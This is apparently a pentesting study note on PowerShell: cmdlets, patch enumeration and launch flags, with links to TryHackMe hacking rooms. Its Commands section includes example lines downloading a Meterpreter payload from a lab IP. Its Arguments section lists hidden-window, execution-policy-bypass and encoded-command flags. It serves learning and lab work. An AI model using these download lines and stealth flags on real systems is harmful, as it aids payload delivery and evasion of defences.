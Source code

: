 # Powershell

In short, "PowerShell is a cross-platform task automation solution made up of a command-line shell, a scripting language, and a configuration management framework. PowerShell runs on Windows, Linux, and macOS." There is a comprehensive document [here](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.2), on Microsoft website.

There is also a brief [Introduction to powershell](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) course.

## **Running Powershell**

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

### Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

A cmdlet is simply a command through which you can perform an action. The two most helpful cmdlets that everyone should be aware of are:

* Get-Command
* Get-Help

Using the cmdlet ‘Get-Command’, you can find all the available cmdlets even if you do not know the exact cmdlet. For example, you want to restart a service from PowerShell, but you do not know the cmdlet. Although you can assume that it may contain the word ‘service’.

Common verbs:

* Get
* Start
* Stop&#x20;
* Read
* Write
* New
* Out

Full list of approved verbs can be found [here](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7).

## Commands

* `Get-Help` shows information about a cmdlet_._ `Get-Help Command-Name`
* `Get-Command` - Gets all the cmdlets installed on the current Computer. This cmdlet allows for pattern matching such as `Get-Command Verb-*` or `Get-Command *-Noun`
* `The Pipe( | )` - Used to pass output from one cmdlet to another. Eg. `Verb-Noun | Get-Member`&#x20;
* `Invoke-Webrequest` - Makes a request to a webserver. Sends HTTP and HTTPS requests to a web page or web service. It parses the response and returns collections of links, images, and other significant HTML elements. More info can be found [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2).
  * Download a file: `Invoke-WebRequest -URI http://(IP):(PORT)/(FILE) -Outfile (FILE)`
  * `Invoke-WebRequest "URL/File" -OutFile "File"`
    * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`
* `Invoke-Expression` - Evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.
* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`
* `Get-Hotfix` - Enumerate already installed patches
  * `Get-Hotfix | Format-list | findstr InstalledOn`
  * `Get-Hotfix | Format-Table HotFixID`
* `Format-List` - Used to gather more information about objects
  * `dir | Format-List`
* `Out-File` - Used to save the output to a file for further use
  * `Get-Hotfix | Out-File Hotfixes.txt`
* `Start-Process` - Used to start a process, such as notepad.
* `Get-Process` - Lists all running processes. Can also be used with the `-name` parameter to filter for a specific process
* `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.
* `Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.
* `Copy-Item` - Copies and item
* `Move-Item` - Moves and item
* `Get-FileHash` - Obtains file hash of specified file

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Additional resources:

[TryHackMe Hacking With Powershell](https://tryhackme.com/room/powershell)

[TryHackme Powershell for Pentesters](https://tryhackme.com/room/powershellforpentesters)
